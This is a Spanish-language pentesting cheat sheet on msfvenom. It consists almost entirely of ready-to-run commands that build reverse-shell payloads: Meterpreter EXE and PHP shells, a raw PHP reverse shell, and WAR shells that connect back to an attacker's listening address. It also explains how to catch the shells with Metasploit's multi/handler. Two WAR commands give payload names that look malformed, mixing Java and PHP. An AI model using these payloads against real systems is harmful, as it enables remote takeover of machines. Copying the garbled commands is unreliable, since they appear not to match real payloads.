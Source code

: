 # 💉 Msfvenom

## Generación de payloads meterpreter

### Meterpreter Reverse Shell TCP con EXE

Para generar un payload, debemos de usar la siguiente sintaxis:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4242 -f exe -o pwned.exe
```

{% hint style="info" %}
Para ponerse a la escucha con metasploit a la espera de la ejecución del payload, deberemos usar la herramienta interna de metasploit llamada "multi handler".&#x20;

Para ello, ejecutamos metasploit y una vez con el prompt, escribimos "`use /multi/handler`". Para poder usarlo, deberemos ejecutar LHOST y LPORT
{% endhint %}

{% hint style="warning" %}
Puede que nos de un error de arquitectura, en este caso, usaremos este comando en el cual se ha cambiado el payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4242 -f exe -o pwned.exe
```
{% endhint %}

### Meterpreter Reverse Shell TCP con PHP

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php
```

## Generación de payloads reverse shell

### Reverse Shell TCP con PHP

Para generar un payload, debemos de usar el siguiente comando:

```bash
msfvenom -p php/reverse_php LHOST=192.168.1.2 LPORT=4242 -f raw > pwned.php
```

### Reverse Shell TCP con WAR

Para generar un payload, debemos de usar el siguiente comando:

```bash
msfvenom -p java/shell_reverse_php LHOST=192.168.1.2 LPORT=4242 -f war > pwned.war
```

#### Otra opción

```bash
msfvenom -p java/jsp_shell_reverse_php LHOST=192.168.1.2 LPORT=4242 -f war > pwned.war
```
